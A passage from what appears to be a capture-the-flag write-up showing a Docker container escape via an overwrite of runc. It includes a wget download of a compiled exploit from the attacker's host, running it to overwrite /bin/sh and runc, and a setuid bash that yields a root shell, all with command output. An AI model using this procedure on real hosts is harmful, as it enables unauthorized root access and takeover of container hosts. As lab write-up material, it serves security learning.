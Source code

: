 First we start two parallel ssh sessions on the target to run and trigger the exploit. Now we connect to the docker container as the PoC mentions, download and run our compiled go binary.

```
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 sh
# cd /tmp
# wget 10.10.14.22/main
--2021-07-31 09:44:23--  http://10.10.14.22/main
Connecting to 10.10.14.22:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2140271 (2.0M) [application/octet-stream]
Saving to: ‘main’

main                                                       100%[========================================================================================================================================>]   2.04M  3.78MB/s    in 0.5s

2021-07-31 09:44:24 (3.78 MB/s) - ‘main’ saved [2140271/2140271]

# chmod +x ./main
# ./main
[+] Overwritten /bin/sh successfully
```

On the host we connect to the docker like we did before but this time it obviously does not work because `/bin/sh` has been overwritten.

```
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 sh
No help topic for '/bin/sh'
```

Inside the container we see that it successfully got the file handle... 

```
# ./main
[+] Overwritten /bin/sh successfully
[+] Found the PID: 510
[+] Successfully got the file handle
[+] Successfully got write handle &{0xc000423500}
```

... and looking on the host again we see that runc was successfully overwritten and our payload was executed.

```
noah@thenotebook:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1113504 Jun  6  2019 /bin/bash
```

Now we can just drop into a rootshell and add the flag to our collection.

```
noah@thenotebook:~$ bash -p
bash-4.4# id 
uid=1000(noah) gid=1000(noah) euid=0(root) egid=0(root) groups=0(root),1000(noah)
bash-4.4# wc -c /root/root.txt 
33 /root/root.txt
```
